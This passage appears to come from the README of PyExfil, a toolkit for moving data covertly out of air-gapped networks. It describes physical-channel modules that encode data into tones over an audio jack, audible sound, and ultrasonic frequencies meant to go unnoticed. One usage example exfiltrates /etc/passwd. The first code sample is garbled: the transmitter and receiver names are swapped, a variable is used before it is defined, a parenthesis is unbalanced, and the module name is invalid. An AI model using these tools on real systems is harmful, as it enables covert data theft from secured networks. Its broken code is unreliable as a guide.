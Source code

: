 We add noise to the modulated signal using the stats.norm.rvs() function in the scipy.stats library to simulate the effects of noise and interference in the transmission. We then play the modulated signal over the default audio output device using the sounddevice library.

```python
from pyexfil.physical.35jack import QAMReceiver, QAMTransmitter

recvr   = QAMTransmitter(   fs=48000, fc=2000, symbol_duration=0.01, bits_per_symbol=4,
                            modulation_order=16, noise_level=0.1)

sender.transmit(sender.encode_data("Hello world!".encode('utf-8'))

# Now listen to the audio output and you should hear the data being transmitted
sender  = QAMReceiver(      fs=48000, fc=2000, symbol_duration=0.01, bits_per_symbol=4, modulation_order=16)
recvr.receive()
```

> Make sure you `pip install -r requirements.txt`!


#### Audio
The Audio module will compile a file into a WAV function. When it's being played a listener can collect the tones and should be able (in a clean environment!) to reconstruct the file. This should be relatively useful for AirGapped networks which are extremely hardened.

```python
# Client (exfiltrator)
from pyexfil.physical.audio.exfiltrator import Exfiltrator

Exfiltrator("/etc/passwd")

# Server (listener)

""" Not Built Yet... """
```

#### Ultrasonic
This module is designed for secure data exfiltration from air-gapped systems that are heavily secured and monitored. It converts files into high-frequency (ultrasonic) tones, undetectable by the human ear, to be transmitted through standard audio output devices. This method is particularly useful in environments where hardware usage is severely restricted and the introduction of new devices could raise suspicion.

The high-pitch module employs an advanced modulation technique to encode data into ultrasonic frequencies. For demonstration, we utilize a 16-QAM modulation scheme to encode 4 bits per symbol. The digital signal, comprising 1024 bits, is reshaped into symbols and then modulated into frequencies above 20 kHz. To simulate real-world transmission challenges, artificial noise is added.

```python
from pyexfil.physical.ultrasonic import UltrasonicTransmitter, UltrasonicReceiver

# Setting up the transmitter with high-frequency carrier
transmitter = UltrasonicTransmitter(fs=48000, fc=22000, symbol_duration=0.01, bits_per_symbol=4,
                                    modulation_order=16, noise_level=0.1) # Do NOT change these settings!

# Encoding and transmitting the message
transmitter.transmit(transmitter.encode_data("Hello world!".encode('utf-8')))

# Setting up the receiver to listen for ultrasonic data transmission
receiver = UltrasonicReceiver(fs=48000, fc=22000, symbol_duration=0.01, bits_per_symbol=4, modulation_order=16)
                            # Do NOT change these settings!

# Start receiving data
receiver.receive()
```
